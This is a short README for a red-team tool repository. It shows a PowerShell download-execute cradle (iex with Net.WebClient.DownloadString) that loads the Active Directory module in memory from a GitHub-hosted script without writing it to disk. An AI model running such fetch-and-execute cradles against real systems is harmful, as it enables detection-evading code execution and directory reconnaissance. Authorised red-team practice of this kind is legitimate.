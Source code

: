 # RedTeamStuffs
A collection of Red Team tools and stuff that have come in handy

# Native AD Module
Use a download-execute cradle to load the Microsoft.ActiveDirectory.Management.dll (RSAT) from within Import-ActiveDirectory.ps1 without writing it to disk. 

iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/RCStep/RedTeamStuffs/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

To list all loaded modules:
PS> Get-Command -Module \*ActiveDirectory\*

From: https://github.com/samratashok/ADModule/tree/master

